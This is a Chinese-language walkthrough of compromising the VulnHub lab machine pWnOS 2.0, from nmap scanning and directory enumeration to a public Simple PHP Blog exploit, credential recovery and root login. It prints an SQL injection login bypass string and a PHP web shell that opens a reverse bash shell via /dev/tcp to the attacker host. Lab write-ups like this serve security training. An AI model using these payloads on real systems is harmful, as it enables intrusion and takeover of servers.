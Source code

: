 > 靶机地址：[pWnOS: 2.0 (Pre-Release) ~ VulnHub](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/pwnos/pWnOS_v2.0.7z)

![image-20240220160409872](imgs/image-20240220160409872.png)

### 解决网络问题

下载之后用VMware打开，特别注意，这个靶机的ip是固定的`10.10.10.100`，我们需要将靶机设置为NAT模式，同时要将攻击机kali的ip也处于`10.10.10.0/24`这个网段，具体在菜单栏的编辑——虚拟网络编辑器，如下，点击更改设置，保证虚拟机的子网ip是`10.10.10.0`即可（否则可能扫不到靶机的ip）。

![image-20240220160516093](imgs/image-20240220160516093.png)

![image-20240220160437614](imgs/image-20240220160437614.png)

### nmap扫描

```
nmap --min-rate 10000 -p- 10.10.10.100
```

![image-20240220161059546](imgs/image-20240220161059546.png)

详细扫描

```bash
sudo nmap -sT -sV -O -p22,80 10.10.10.100
```

![image-20240220161346401](imgs/image-20240220161346401.png)

指定漏洞脚本扫描

```bash
 nmap --script=vuln -p22,80 10.10.10.100
```

![image-20240220161709469](imgs/image-20240220161709469.png)

80端口发现一个`csrf`，先往后放放

### Web渗透

由于只开放了`22`和`80`端口，所以先从`80`端口开始入手

![image-20240220161912534](imgs/image-20240220161912534.png)

点击`Login`，尝试sql注入，万能语句

```
1' or 1=1#
```

![image-20240220162418264](imgs/image-20240220162418264.png)

如上图，貌似是登录成功了，**说明确实存在注入**，但遗憾的是并没有任何回显，可能是做了过滤。其实这里我们**可以sqlmap进行POST型注入的一把梭哈**

找其他的路径，扫目录

#### 目录扫描

```bash
dirb http://10.10.10.100/
```

![image-20240220162732328](imgs/image-20240220162732328.png)

```bash
dirsearch -u  http://10.10.10.100/ -i 200
```

![image-20240220162847994](imgs/image-20240220162847994.png)

访问`/blog`，界面看着像CMS

![image-20240220162935196](imgs/image-20240220162935196.png)

找找有没有CMS的名字

![image-20240220163916497](imgs/image-20240220163916497.png)

也可以用`whatweb`识别

![image-20240220163936475](imgs/image-20240220163936475.png)

查找有没有相关漏洞

```bash
#查找
searchsploit Simple PHP Blog 0.4.0

#下载
searchsploit Simple PHP Blog 0.4.0  -m 1191.pl
```





![image-20240220164326398](imgs/image-20240220164326398.png)

查看该脚本的用法echo

```bash
 cat 1191.pl
```

![image-20240220164521502](imgs/image-20240220164521502.png)

脚本中的注释给了一些参数的使用方法，可知-h添加主机，-e进行利用，不同的序号给出了不同的利用方式。我们先试试Examples中给出的 -e 2，命令如下：

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 2
```

![image-20240220164851818](imgs/image-20240220164851818.png)

如果出现运行报错Can't locate Switch.pm in @INC，应该是perl版本依赖未安装的问题，运行如下命令即可。

```bash
sudo apt install libswitch-perl
```

下载完依赖后，再次执行利用脚本

![image-20240220170350393](imgs/image-20240220170350393.png)

得到一串`hash`：`$1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/`，无法解密出来



尝试使用其他方法，可以使用-e 3添加一个用户名和密码

```bash
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U hack -P hack
```



![image-20240220170621190](imgs/image-20240220170621190.png)

尝试登录`blog`

![image-20240220170736979](imgs/image-20240220170736979.png)

![image-20240220170747670](imgs/image-20240220170747670.png)

显示已经 登录成功！

在右下角的Menu菜单中有Upload Image模块，可以进行文件上传

![image-20240220170832098](imgs/image-20240220170832098.png)

上传`shell.php`代码

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.11/4567 0>&1'"); ?>
```

![image-20240220171823700](imgs/image-20240220171823700.png)

上传成功，存在文件上传漏洞，后台没有对前端上传的文件进行校验，现在就是要找出文件上传的位置，触发代码执行。

前期扫目录的时候扫除了`/blog/images/`

![image-20240220172112353](imgs/image-20240220172112353.png)

![image-20240220172126649](imgs/image-20240220172126649.png)

kali监听`4567`端口

点击`shell.php`触发代码，

![image-20240220172256238](imgs/image-20240220172256238.png)

反弹成功！

### 权限提升

拿到权限第一步就是看有哪些能以`root`身份运行

![image-20240220172441449](imgs/image-20240220172441449.png)

结果发现拿到的shell交互性不友好，

看看当前系统有没有`python`环境

```bash
dpkg -l | grep python*
```



![image-20240220172633036](imgs/image-20240220172633036.png)

那么就可以使用`python`获得好一点的交互shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240220172835770](imgs/image-20240220172835770.png)

发现是需要密码的

查看一下`/etc/passwd`，需要重点关注有`bash`环境的用户

![image-20240220173045513](imgs/image-20240220173045513.png)

在看见网站根目录下有什么东西，发现数据库的配置文件

![image-20240220173205460](imgs/image-20240220173205460.png)

找到数据库的登录账号和密码，尝试登录，结果失败了，再找找有没有其他路径下有这个文件

```bash
find / -name "mysqli_connect.php" 2>/dev/null
```

![image-20240220173608788](imgs/image-20240220173608788.png)

![image-20240220173648181](imgs/image-20240220173648181.png)

`root:root@ISIntS`

![image-20240220173825818](imgs/image-20240220173825818.png)

拿到用户`Dan`	的密码`c2c4b4e51d9e23c02c15702c136c3e950ba9a4af`

查看其加密方式

```bash
hash-identifier "c2c4b4e51d9e23c02c15702c136c3e950ba9a4af"
```



![image-20240220173944404](imgs/image-20240220173944404.png)

解密网站：https://hashes.com/en/decrypt/hash

![image-20240220174430872](imgs/image-20240220174430872.png)

得到明文：killerbeesareflying，拿着该密码与`dan`用户和`root`用户登录，结果都失败了



使用`root:root@ISIntS`登录成功，拿下root

![image-20240220174931001](imgs/image-20240220174931001.png)

数据库的登录密码竟然就是ssh登录的密码


